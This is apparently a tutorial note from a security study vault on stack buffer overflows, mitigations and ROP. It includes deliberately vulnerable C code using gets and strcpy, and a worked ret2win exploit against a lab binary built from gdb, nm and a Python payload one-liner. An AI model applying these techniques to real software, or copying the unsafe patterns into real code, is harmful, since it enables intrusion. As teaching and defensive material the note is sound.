


# 💥 Binary Exploitation Fundamentals

> [!danger] Authorized simulation / lab binaries only
> Exploit development is performed against deliberately-vulnerable practice binaries, vendor test fixtures, and isolated ranges you own. Understanding memory corruption is what enables detection engineering and secure-software remediation. Never target software you are not authorized to test.

## Parent Learning Order
CPU, Assembly & the ABI -> Executable Formats: ELF, PE & Mach-O -> Binary Exploitation Fundamentals

## Where You Stop Using Exploits and Start Writing Them

> *An exploit sends input to a program and gets a shell back. What did that input actually take control of?*
>
> Hold your answer — the section below is the response.

Until now you *ran* other people's exploits. This note is where you learn how they are *built*: how a **buffer overflow** turns attacker input into control of the CPU's instruction pointer, what **shellcode** is, and how modern **mitigations** (DEP/ASLR/canaries) change the game and are bypassed with **code reuse (ROP)**. It is the mental model behind every memory-corruption CVE, and it is the entry point to the rest of the Exploit Development pillar — the deeper leaves (stack/heap/format-string bugs, ROP/JOP, platform specifics) all assume this overview.

The one sentence that is the whole game: **if attacker input can overwrite a function's saved return address, then when the function returns, the CPU jumps wherever the attacker points it.**

> [!tip] The analogy, and where it breaks
> A buffer overflow is like filling a glass past its rim so the overflow floods the countertop behind it — the program only budgeted for 64 bytes but you pour in 200, and the excess soaks the return address sitting just past the glass. The analogy breaks on intent: spilled water is inert, whereas the bytes you "spill" onto the return address are *chosen* — they are a precise address, so the overflow is not an accident but a steering wheel for execution.

**Prerequisites:** **CPU, Assembly & the ABI** (registers, RIP, `call`/`ret`, the stack) and **Executable Formats** (memory layout, permissions).

## Memory, the Stack & the Return Address

A running process lays memory out in regions; classic exploitation lives in the **stack**.



The stack grows *downward* and holds each call's **stack frame**: local buffers, the saved base pointer, and the **return address**. A local `char buffer[64]` sits *below* (at a lower address than) the saved return address, so writing past the end of `buffer` marches *upward* into the saved RBP and then the return address — the value `ret` will load into RIP.

## Stack-Based Buffer Overflows

The bug: user input copied into a fixed stack buffer **without a length check**.

```c
// ❌ Vulnerable — no bounds check
void handle(char *in){ char buffer[64]; strcpy(buffer, in); }  // input > 64 bytes overflows
```

The classic workflow to weaponize it:



1. **Fuzz** — grow the input until it crashes.
2. **Offset** — a De Bruijn *cyclic* pattern reveals exactly how many bytes reach the return address.
3. **Control RIP** — overwrite it with a marker (`0x4242...`) to confirm control.
4. **Bad characters** — some bytes (`\x00`, `\x0a`) get mangled by input handling; identify and avoid them.
5. **Redirect** — the simplest target is another function already in the binary (**ret2win**); with an executable stack, jump to injected **shellcode**; with mitigations on, build a **ROP** chain.

## Shellcode and Mitigations in One Picture

**Shellcode** is compact, position-independent machine code (classically `execve("/bin/sh")`) placed in memory and jumped to. But real targets enable protections that break naive injection:

| Mitigation | What it does | Bypass |
| --- | --- | --- |
| **NX / DEP** | Stack is non-executable — injected shellcode won't run | **ROP** (reuse existing executable code) |
| **ASLR** | Randomizes memory addresses each run | leak an address (info-leak), or a fixed non-PIE module |
| **Stack canary** | Random value guards the return address | leak it, or don't overwrite it (e.g. a targeted write) |
| **PIE** | Randomizes the binary's own base | defeat with a leak |

**ROP (Return-Oriented Programming)** defeats NX by injecting *no code* — instead you chain tiny snippets of *existing* executable code (**gadgets**, each ending in `ret`) to, say, call `mprotect` to make memory executable, or build an `execve` call directly. The deeper leaves cover ROP/JOP/SROP; here the point is *why* it exists — NX made injected shellcode unrunnable, so attackers reuse the code already present.

## Worked Example: From Overflow to Chosen Execution in Four Steps

The whole of binary exploitation, at its smallest: find the distance to the
return address, and put an address of your choosing there.

**The specimen** contains a function nothing ever calls:

```c
void win(void){ puts("CODE-EXECUTION"); }   // never called normally
void handle(void){ char buf[64]; gets(buf); }
int main(void){ puts("send input:"); handle(); puts("done"); return 0; }
```

**Confirming control.** Two hundred `A` bytes crash the process, and the crash
tells you what you need:

```shell-session
analyst@lab:/tmp/pwn-lab$ gdb -q -batch -ex 'run <<< $(python3 -c "print(\"A\"*200)")' \
    -ex 'info registers rip' ./vuln
Program received signal SIGSEGV, Segmentation fault.
rip            0x4141414141414141  0x4141414141414141
```

`RIP` holds `0x4141414141414141` — eight `A` characters. That is the finding, and
it is a stronger one than "the program crashed". A crash where the instruction
pointer contains attacker bytes means the return address was reached, which means
execution is already redirected; only the destination is wrong so far.

**Finding the two numbers.** The target address, and the distance to it:

```shell-session
analyst@lab:/tmp/pwn-lab$ nm vuln | awk '/ T win$/{print "win() at 0x"$1}'
win() at 0x401156
```

The offset is 72: 64 bytes of `buf`, then 8 for the saved `RBP` that sits between
the locals and the return address. Non-PIE is what makes `0x401156` usable as a
constant — under PIE the same function would sit at a different address each run
and this step would need a leak first.

**The payload**, which contains no code at all — just padding and one address:

```shell-session
analyst@lab:/tmp/pwn-lab$ python3 -c "import sys,struct; sys.stdout.buffer.write(b'A'*72 + struct.pack('<Q', 0x401156))" > payload.bin
analyst@lab:/tmp/pwn-lab$ ./vuln < payload.bin
send input:
CODE-EXECUTION
```

Note what is missing from the output: `done`. `main` never printed it, because
`handle` never returned to `main` — it returned to `win`, and the program's
control flow diverged permanently at that `ret`. Also note `struct.pack('<Q')`:
little-endian, so the address goes into the payload byte-reversed. Getting that
backwards is the single most common reason a first exploit attempt fails with a
crash at a plausible-but-mangled address.

Everything later in this branch replaces the destination — shellcode, a gadget
chain, a libc function — while this primitive stays exactly the same.

## Off by a few bytes, and what that costs

- **Wrong offset.** Off by a few bytes and you overwrite the saved RBP instead of RIP (or misalign the chain) — use a cyclic pattern, never guess.
- **Bad characters silently truncate the payload.** A `\x00` in the middle of your address ends a `strcpy` early; find and avoid bad chars before blaming the logic.
- **Mitigation misread.** Attempting to jump to stack shellcode on an NX binary just crashes — check protections (`checksec`) first and pick ret2win/ROP accordingly.
- **Stack alignment (x86-64).** A misaligned stack faults inside libc (`movaps`); ROP chains often need an extra `ret` to realign.
- **Local vs remote differences.** Environment variables and argv shift stack addresses; an exploit tuned locally can miss remotely — prefer offsets and leaks over hardcoded stack addresses.

**The deliberate break:** a crash reads as a vulnerability. The program died on your input, so you have found something exploitable.

A crash is an **unhandled condition**, and most are not exploitable. What decides the difference is whether attacker input reaches a value the CPU uses to make a control-flow decision — a return address, a function pointer, a vtable entry — with enough control over its contents and enough room to place what you need. A null-pointer dereference and a return address overwritten with your own bytes both crash identically from the outside, and only one of them is an exploit.

**How you'd spot it:** ask what the corrupted value is used for, because that is the whole triage question. A fault address made of your own input pattern means the data reached something the processor dereferences; a fault inside allocator bookkeeping is a different and usually harder story than a fault on a return. The confirming test is control rather than the crash itself — vary the input and see whether the fault address varies predictably with it.

## Security Implications — the Defender's View

- **The mitigations above are the defense**, and enabling them (NX, ASLR/PIE, stack canaries, Full RELRO, and CET shadow stacks) forces attackers into progressively harder bypasses — defense in depth at the binary level.
- **Memory-safe languages** remove the bug class entirely; the strongest long-term fix is rewriting exposed parsers in Rust/Go rather than hardening C.
- **Detection signals are distinctive:** a network daemon crashing repeatedly (fuzzing), a child shell spawned from a service, RWX memory allocations, and ROP-like control flow are exactly what EDR/exploit-guard watch for.
- **Compiler/OS hardening + fuzzing in CI** catches these before shipping — the same overflow you exploit here is one a fuzzer would have found.

## Summary

You should now be able to:

- Explain why overwriting a saved return address hands control of RIP to the attacker.
- Compile a vulnerable binary, find the offset with a cyclic pattern, and perform a ret2win that proves control flow via a canary.
- Explain why NX forces ROP, how ASLR/PIE/canaries each raise the bar, why memory-safe languages remove the class, and what exploitation looks like to EDR/exploit-guard.

---
> 🔼 Up: [[Exploit Foundations & Architecture]]
